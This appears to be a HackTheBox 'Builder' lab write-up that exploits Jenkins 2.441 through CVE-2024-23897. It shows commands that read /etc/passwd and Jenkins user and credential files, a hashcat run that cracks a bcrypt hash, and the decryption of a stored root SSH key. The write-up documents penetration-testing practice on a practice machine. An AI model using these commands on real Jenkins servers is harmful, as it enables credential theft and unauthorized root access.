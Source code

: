 ```yaml
---
title: "Builder - Writeup"
classes: single
ribbon: LightBlue
categories:
  - writeup
tags:
  - writeups
  - pentest
  - writeup
  - oscp
  - shell
  - exploit
  - htb
  - hackthebox
  - machine
  - medium
  - linux
toc: true
hide_title: true
excerpt: ""
sidebar:
        nav: "menu_writeups"
---
```


## Builder
![](https://kar0nx.github.io/assets/images/writeup/a0f6d6a08e0806448341587cd59450a6.png)
## Reconnaissance

IP: 10.10.11.10
## NMAP

```
nmap -T4 -p- -A 10.10.11.10
```

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-11 15:49 UTC
Nmap scan report for 10.10.11.10
Host is up (0.031s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
8080/tcp open  http    Jetty 10.0.18
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: Dashboard [Jenkins]
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-server-header: Jetty(10.0.18)
Device type: general purpose|router
Running: Linux 5.X, MikroTik RouterOS 7.X
OS CPE: cpe:/o:linux:linux_kernel:5 cpe:/o:mikrotik:routeros:7 cpe:/o:linux:linux_kernel:5.6.3
OS details: Linux 5.0 - 5.14, MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3)
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 443/tcp)
HOP RTT      ADDRESS
1   30.10 ms 10.10.14.1
2   30.52 ms 10.10.11.10

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 26.85 seconds
```

## Website
### Site

Jenkins Dashboard

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250911174938.png)

in credentials we can spot user root

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250911175102.png)

and in people jennifer 

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250911175131.png)

searching for version exploits 2.441 I found 
https://www.exploit-db.com/exploits/51993
https://www.jenkins.io/security/advisory/2024-01-24/

### Manual Check

Manual enumeration I made after rooting machine with 0xdf write up
https://0xdf.gitlab.io/2024/02/12/htb-builder.html
download it `http://10.10.11.10:8080/jnlpJars/jenkins-cli.jar`

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250912091114.png)

Confirming that this works: 

```
java -jar jenkins-cli.jar -s 'http://10.10.11.10:8080' who-am-i

java -jar jenkins-cli.jar -s 'http://10.10.11.10:8080' help '@/etc/passwd'
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250912091339.png)

## CVE-2024-23897 Jenkins 2.441 - Local File Inclusion

Now let's back to my method, get python script to your pc
https://www.exploit-db.com/exploits/51993
and use command from poc:

```
python3 51993.py -u http://10.10.11.10:8080/ -p /etc/passwd
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250912091701.png)

Great it works, now I want to access users.xml, searching google I found great jenkins cheatsheet paths
https://github.com/godylockz/CVE-2024-23897

```
python3 51993.py -u http://10.10.11.10:8080/ -p /var/jenkins_home/users/users.xml
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250912092149.png)

Now we have username, so let's use next path to find password hash

```
python3 51993.py -u http://10.10.11.10:8080/ -p /var/jenkins_home/users/jennifer_12108429903186576833/config.xml
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250912092303.png)

Ok we got bcrypt password so let's attempt to crack it with hashcat module 3200

```
hashcat hash /usr/share/wordlists/rockyou.txt -m 3200
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250912092811.png)

Now we are able to login to jenkins web panel with jennifer credentials

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250912093011.png)

We can take user txt using reverse shell in script console 
## Privilege Escalation

Now I back to /credentials found earlier however now I can only Update root SSH private key.
But After inspecting this file we see that it is encrypted looks like base64 

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250912093820.png)

Tried base64 decrypt but not working this time 

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250912094140.png)

searching google how to decrypt jenkins I found 

https://devops.stackexchange.com/questions/2191/how-to-decrypt-jenkins-passwords-from-credentials-xml

and using this command I manage to retrieve id_rsa

```
println(hudson.util.Secret.decrypt("{XXX=}"))
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250912094552.png)

and we have root access now. I grabbed 2 flags right now

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250912094727.png)